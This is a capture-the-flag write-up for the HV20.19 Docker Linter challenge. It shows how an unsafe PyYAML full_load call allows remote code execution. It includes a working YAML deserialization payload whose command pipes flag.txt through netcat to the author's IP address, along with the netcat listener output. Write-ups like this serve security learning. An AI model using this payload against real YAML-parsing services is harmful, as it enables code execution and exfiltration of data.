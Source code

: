 # HV20.19 Docker Linter Service

For this challenge, we get access to a website that validates some (docker related) configuration files using various linters (`Dockerfile`, `docker-compose.yml` and `.env`). The content of the files can either be specified via an input field or using a file upload. Our goal is to get remote code execution (pop a reverse shell) to get the flag.

From the response headers of the webserver, we can find out that the backend was probably written in _Flask_ (_Python3_ + _Werkzeug_). By playing with the different validation options and submitting a combination of valid and invalid inputs, I was able to get an overview of the tools involved within the linting process:

```
ENV
- dotenv-linter

COMPOSE
- Basic syntax check
- yamllint
- docker-compose

DOCKERFILE
- hadolint
- dockerfile_lint
- dockerlint.js
```

I tried to check for known vulnerabilities / CVE's of these tools but could not find any promising tools. Therefore, I started to focus on the file upload mechanism and tried to perform some sort of command injection or path traversal attack. However, it seemed like the upload was built in a secure way.

At this point I felt a bit lost, so I tried to randomly fuzz the inputs and got an interesting error while submitting some invalid input for the `docker-compose.yml`:

```
Basic syntax check
Linter exited with code 1
while parsing a tag
  in "docker-compose.yml", line 1, column 1
expected URI, but found '\n'
  in "docker-compose.yml", line 1, column 3
```

It seems like the basic syntax check step parses the YAML file in python, so I started to google for some common attacks when parsing YAML in python and found some interesting attack that exploit the `full_load` function of the _PyYAML_ package. I searched for a couple of payloads and after a while I found one that seemed to work and allowed me to execute commands on the remote machine. To get the output of my commands, I simply piped them into netcat and sent the output to my machine. Thankfully, it was easy to find the `flag.txt` file since it was saved in the same folder as our vulnerable program. Using the following YAML file I was able to receive the content of the flag:

```yaml
- !!python/object/new:str
  args: []
  state: !!python/tuple
    - "import os; os.system('cat flag.txt | nc 10.13.0.26 8888')"
    - !!python/object/new:staticmethod
      args: [0]
      state:
        update: !!python/name:exec
```

```bash
➜  19 git:(main) ✗ nc -lnvvp 8888
listening on [any] 8888 ...
connect to [10.13.0.26] from (UNKNOWN) [152.96.7.3] 46478
HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
 sent 0, rcvd 46
```

**Flag:** HV20{pyy4ml-full-l04d-15-1n53cur3-4nd-b0rk3d}
